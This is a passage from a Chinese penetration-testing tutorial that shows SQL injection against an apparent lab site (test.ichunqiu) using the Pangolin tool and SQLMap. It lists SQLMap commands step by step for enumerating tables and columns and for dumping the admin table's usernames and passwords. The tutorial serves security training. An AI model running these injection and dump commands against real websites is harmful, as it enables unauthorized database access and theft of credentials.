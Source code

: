 打开工具，在 **URL** 处填入注入点 `http://www.test.ichunqiu/shownews.asp?id=1`（注意：该工具不提供注入点扫描，只判断输入参数是否能作为注入点），点击 **开始** 箭头后，得到以下结果，说明注入点有效：

![pangolin_info](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/pangolin_info.png)

切换到 **Datas** 选项卡，点击 **Tables** 后得到 4 张表，接着选中 `admin` 表（注意不是打钩），点击 **Columns** 后得到 4 个列名，此时才在 `admin` 前打钩，选中所有列，点击 **Datas** 后即可获得管理员账号密码。可见，穿山甲工具的使用流程与明小子非常类似。

![pangolin_result](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/pangolin_result.png)

### SQLMap

[**SQLMap**](http://sqlmap.org/) 是一款专注于自动化 SQL 注入检测的开源渗透工具，用 Python 脚本语言编写，能在装有 Python 2.6.x 与 Python 2.7.x 的系统上跨平台运行，支持对数十种常见数据库的检测，被誉为 SQL 注入领域的一大渗透神器。

由于 SQLMap 只支持命令行界面，其易用性不如前两者，但丝毫不影响其渗透威力，反而还拥有更高的检测效率与更广的检测范围。SQLMap 作为渗透工程师常用且必备的工具，应当重点掌握。下面将列出渗透过程中常用的命令及用法，建议同时参考[官方文档](https://github.com/sqlmapproject/sqlmap/wiki)。

（1）`python sqlmap.py -h`：查询帮助手册。
（2）`python sqlmap.py -u <URL>`：检测该 URL 是否存在注入（末尾记得写上查询参数）。
（3）`python sqlmap.py -u <URL> --dbs`：查询所有数据库名。
（4）`python sqlmap.py -u <URL> --current-db`：查询当前数据库名。
（5）`python sqlmap.py -u <URL> -D <database> --tables`：查询某数据库中的所有表名。
（6）`python sqlmap.py -u <URL> -D <database> -T <table> --columns`：查询某数据表中的所有列名。
（7）`python sqlmap.py -u <URL> -D <database> -T <table> -C <column> --dump`：查询某列中的所有数据。

以上是通过 GET 方式来检测注入点，并进行 SQL 注入读取数据库中数据的常规套路。**注意一个特例：由于 Microsoft Access 数据库结构特殊，注入时不必通过（3）或（4）来查询数据库名，直接从（5）开始查询表名即可，`-D` 选项也可省去。**

> 小贴士：为了避免在命令行界面输入中文进入【SQLMap】目录，因此使用前建议将【SQLMap】文件夹拷贝到 C 盘下。

确保了命令行路径在【SQLMap】目录下后，根据（2）输入命令 `python sqlmap.py -u http://www.test.ichunqiu/shownews.asp?id=1` ，若询问「已确认 `id` 参数可注入，还需检测其他参数？」填 `N`，结果显示此为**基于布尔的盲注（boolean-based blind）**，并且返回了一些服务器相关信息，如：服务器操作系统为 **Windows 2003 或 Windows XP**，Web 应用程序采用了 **APS.NET、Microsoft IIS 6.0、ASP** 等建站技术，后端数据库数理系统为 **Microsoft Access**。以上对服务器相关信息的收集有助于后续更高效精准的渗透。

![sqlmap_info](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/sqlmap_info.png)

知道了后端数据库是 Microsoft Access 后，可以跳过（3）或（4）直接进行（5），输入命令 `python sqlmap.py -u http://www.test.ichunqiu/shownews.asp?id=1 --tables`，若询问「需要检测常用表名是否存在？」填 `Y`，询问「需要的线程数量？」填最大值 `10`。检测将近一半时，按 `Ctrl + C` 手动终止扫描，得到了包含 `admin` 表在内的 6 张表。**注意：由于 SQLMap 扫描所用的字典范围更广，因此比起前两者能发现更多的数据表。**

> 小贴士：由于扫描花时较长，当看到 `admin` 表出现时，可按 `Ctrl + C` 手动停止扫描。

![sqlmap_tables](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/sqlmap_tables.png)

继续执行（6）中的命令，输入 `python sqlmap.py -u http://www.test.ichunqiu/shownews.asp?id=1 -T admin --columns`，若询问「需要检测常用列名是否存在？」填 `Y`，询问「需要的线程数量？」填最大值 `10`。本次扫描不手动终止，等待其全部扫描完毕，得到了 `username` 与 `password` 等 6 个字段。

![sqlmap_columns](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/sqlmap_columns.png)

最后执行（7）中的命令，输入 `python sqlmap.py -u http://www.test.ichunqiu/shownews.asp?id=1 -T admin -C username,password --dump`，等待其枚举完毕，若询问「需要临时保存结果的哈希值？」填 `N`，询问「需要用字典攻击来破解结果？」填 `n`，随即可看到管理员的账号密码等数据。
